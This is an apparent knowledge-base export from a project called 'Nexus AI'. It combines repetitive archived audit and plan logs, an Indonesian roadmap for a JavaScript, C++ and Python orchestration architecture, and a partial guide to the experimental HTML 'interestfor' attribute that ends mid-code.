- **Audit ID**: AUDIT-1778145260702 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 7
- **Audit ID**: AUDIT-1778145260702-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778145260702-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778145260702-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778145260702-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778145260702-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778145260702-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145261172 | **Audit Ref**: AUDIT-1778145260702 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145320135 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 7
- **Audit ID**: AUDIT-1778145320135-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778145320135-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778145320135-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778145320135-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778145320135-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778145320135-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145320527 | **Audit Ref**: AUDIT-1778145320135 | **Tasks**: 3


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd, test_result, full_stack_interaction_test_(tall_flow)]

### 📘 KNOWLEDGE: NEXUS_GOVERNANCE_ENFORCEMENT_TEST_SESSION_HISTORY_ARCHIVE.MD

## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144650473 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 9
- **Audit ID**: AUDIT-1778144650473-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144650473-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144650473-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144650473-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144650473-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144650473-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144650903 | **Audit Ref**: AUDIT-1778144650473 | **Tasks**: 5


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144926350 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 7
- **Audit ID**: AUDIT-1778144926350-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144926350-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144926350-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144926350-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144926350-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144926350-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144926754 | **Audit Ref**: AUDIT-1778144926350 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144971396 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 7
- **Audit ID**: AUDIT-1778144971396-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144971396-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144971396-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144971396-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144971396-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144971396-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144971783 | **Audit Ref**: AUDIT-1778144971396 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145173860 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 7
- **Audit ID**: AUDIT-1778145173860-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145173860-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145173860-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145173860-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145173860-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145173860-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145174253 | **Audit Ref**: AUDIT-1778145173860 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145291108 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 7
- **Audit ID**: AUDIT-1778145291108-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145291108-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145291108-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145291108-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145291108-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145291108-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145291607 | **Audit Ref**: AUDIT-1778145291108 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145351115 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 7
- **Audit ID**: AUDIT-1778145351115-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145351115-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145351115-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145351115-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145351115-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145351115-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\governance_enforcement_test | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145351518 | **Audit Ref**: AUDIT-1778145351115 | **Tasks**: 3


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd, test_result, governance_enforcement_test]

### 📘 KNOWLEDGE: NEXUS_HYBRID_CORE_ROADMAP.MD

# Nexus Hybrid Architecture Roadmap (JS + C++ + Python)
> **VERSION**: v1 | **Last Updated**: 26/05/2026


**Status:** Planned / Early Implementation
**Target Goal:** "Zero Bottleneck" Orchestration for 1000 Autonomous Web Apps

## 1. Filosofi Arsitektur Hybrid
Seiring dengan evolusi visi 1000 Web App, I/O *Node.js* (JavaScript) akan mencapai batas kemampuannya (*bottleneck*). Oleh karena itu, *Core Engine Nexus* mengadopsi arsitektur tiga bahasa yang membagi beban sesuai dengan hukum absolut *Computer Science*:

### 🧠 JavaScript (Node.js) - *The Nervous System*
- **Peran:** Orchestrator, CLI Interface, dan Asynchronous I/O Loop.
- **Kelebihan:** Sangat baik dalam mengelola aliran tugas paralel (AI calls, proses terminal).
- **Komponen:** `NexusEngine.js`, `AuditPhase.js`, `cli.js`.

### 💪 C++ Native - *The Muscle (Disk I/O & Spawner)*
- **Peran:** Mengkloning *sandbox*, menghapus ribuan file `node_modules` atau `vendor`, memanipulasi `.env` tanpa *overhead*.
- **Lokasi Kode:** `nexus/native/sandbox_orchestrator.cpp`, `fast_linker.cpp`.
- **Eksekusi:** Dipanggil dari Node.js via `child_process` (mis. `sandbox_orchestrator.exe setup <source> <target> <app_name>`).

### 🧿 Python - *The Right Brain (AI & Vector Distillation)*
- **Peran:** Memproses *Knowledge Harvesting*, memori semantik (Vector Embedding), dan berinteraksi mendalam dengan LLM (RAG).
- **Lokasi Kode:** `nexus/native/distiller.py`.
- **Fungsi:** Mensintesis ribuan baris kode menjadi abstraksi (*Wisdom*) berkualitas tinggi.

---

## 2. Sandbox Orchestrator (C++) Integration Plan
Kompilasi C++ buatan developer (*Faisal-Trainer*) telah diimplementasikan dalam bentuk *binary executable*. Pengintegrasiannya ke *pipeline* TDD akan dilakukan dengan skema berikut:

### Metode JS Saat Ini (Lambat)
```javascript
// Memakan waktu menit per batch akibat beban loop event JS pada HDD/SSD.
await fs.copy(TEMPLATE_SOURCE, targetPath);
```

### Metode C++ Mendatang (Instan)
```javascript
const { spawnSync } = require('child_process');
const nativeExe = path.join(__dirname, '..', 'nexus', 'native', 'sandbox_orchestrator.exe');

// Memanggil C++ murni yang langsung berinteraksi dengan OS System Calls.
spawnSync(nativeExe, ['setup', TEMPLATE_SOURCE, targetPath, project.name]);
```

## 3. Langkah Implementasi Mendatang
1. **Validasi TALL Stack:** Menyelesaikan uji coba TDD Section 1 dan 2 menggunakan Node.js (untuk mematangkan alur AI).
2. **Penggantian Adapter Native:** Mengedit `tests/TDD/phase1_testing.js` agar melempar beban duplikasi ke `sandbox_orchestrator.exe`.
3. **Ekspansi MERN/Python:** Ketika I/O sudah tidak menjadi masalah karena ditangani C++, Nexus siap memompa aplikasi dengan *stack* yang berbeda-beda tanpa risiko *crash* memori.

*Document generated by Nexus Autonomous Governance Engine.*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd]

### 📘 KNOWLEDGE: NEXUS_INTELLIGENT_CRUD_AUDITOR_SESSION_HISTORY_ARCHIVE.MD

## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778142890790 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 7
- **Audit ID**: AUDIT-1778142921955 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 11
- **Audit ID**: AUDIT-1778142973803 | **Target**: tests/project1 | **Findings**: 11
- **Audit ID**: AUDIT-1778142921955-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778142973803-CYBER-SECURITY | **Target**: tests/project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778142921955-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778142973803-DATABASE-ARCHITECT | **Target**: tests/project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778142921955-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778142973803-DOCUMENTATION-ARCHITECT | **Target**: tests/project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778142921955-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778142973803-SEO-PERFORMANCE-SPECIALIST | **Target**: tests/project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778142921955-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778142973803-UX-ENGINEER | **Target**: tests/project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778142921955-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778142973803-VCS-ARCHITECT | **Target**: tests/project1 | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778142974753 | **Audit Ref**: AUDIT-1778142973803 | **Tasks**: 8


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778143001765 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 9
- **Audit ID**: AUDIT-1778143299368 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 10
- **Audit ID**: AUDIT-1778143337228 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 6
- **Audit ID**: AUDIT-1778144573322 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 7
- **Audit ID**: AUDIT-1778143001765-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778143299368-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778143337228-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778144573322-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778143001765-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778143299368-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778143337228-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778144573322-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778143001765-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778143299368-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778143337228-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778144573322-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778143001765-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778143299368-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778143337228-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778144573322-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778143001765-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778143299368-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778143337228-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778144573322-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778143001765-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778143299368-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 3
- **Audit ID**: AUDIT-1778143337228-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\project1 | **Findings**: 1
- **Audit ID**: AUDIT-1778144573322-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144574916 | **Audit Ref**: AUDIT-1778144573322 | **Tasks**: 2


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144884555 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 7
- **Audit ID**: AUDIT-1778144884555-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778144884555-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778144884555-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778144884555-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778144884555-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778144884555-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144885659 | **Audit Ref**: AUDIT-1778144884555 | **Tasks**: 2


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144926152 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 7
- **Audit ID**: AUDIT-1778144926152-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778144926152-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778144926152-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778144926152-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778144926152-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778144926152-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144927465 | **Audit Ref**: AUDIT-1778144926152 | **Tasks**: 2


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145130532 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 7
- **Audit ID**: AUDIT-1778145130532-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778145130532-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778145130532-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778145130532-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778145130532-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778145130532-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145131591 | **Audit Ref**: AUDIT-1778145130532 | **Tasks**: 2


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145247466 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 7
- **Audit ID**: AUDIT-1778145247466-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778145247466-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778145247466-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778145247466-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778145247466-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778145247466-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145248510 | **Audit Ref**: AUDIT-1778145247466 | **Tasks**: 2


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145306826 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 7
- **Audit ID**: AUDIT-1778145306826-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778145306826-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778145306826-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778145306826-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778145306826-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1
- **Audit ID**: AUDIT-1778145306826-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\intelligent_crud_auditor | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145307832 | **Audit Ref**: AUDIT-1778145306826 | **Tasks**: 2


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd, test_result, intelligent_crud_auditor]

### 📘 KNOWLEDGE: NEXUS_INTEREST-TRIGGERED-ACTION-PREVIEWS.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

It can be beneficial to provide users a preview of their actions before they commit to them. Interest invokers are an experimental web platform feature that provides a declarative-based way of creating interest relationships between an interest source (i.e. a button or a link) and an interest target. Once the declarative relationship has been established there are a number of methods a developer can respond to based on interest and loss of interest using both CSS and JavaScript. For this use case, we can leverage the `interest` and `loseinterest` events to preview various effects for an interest target.

## How to implement

An interest relationship is created by setting the `interestfor` attribute on a button or link (i.e. the interest source). The attribute takes an ID reference to another element (i.e. the interest target). Interest invokers or sources can only have a single interest target, but an interest target can have multiple interest invokers.

```html
<!-- MANDATORY: interest relationships must be established with the `interestfor` attribute on a button or a link -->
<button interestfor="interestingElement" data-effect="A">Some effect</button>
<button interestfor="interestingElement" data-effect="B">Some other effect</button>
<div id="interestingElement">Something interesting</div>
```

For the sake of this use case, we can leverage the `interest` and `loseinterest` events to preview various effects for an interest target. Both of these events are `InterestEvent`s which has a `source` property which is the source of the interest (i.e. the element with the `interestfor` attribute).

```javascript
interestingElement.addEventListener("interest", event => {
  // Apply the preview based on `event.source`
  event.target.dataset.preview = event.source.dataset.effect;
});

interestingElement.addEventListener("loseinterest", event => {
  // Unapply the preview
  delete event.target.dataset.preview;
});
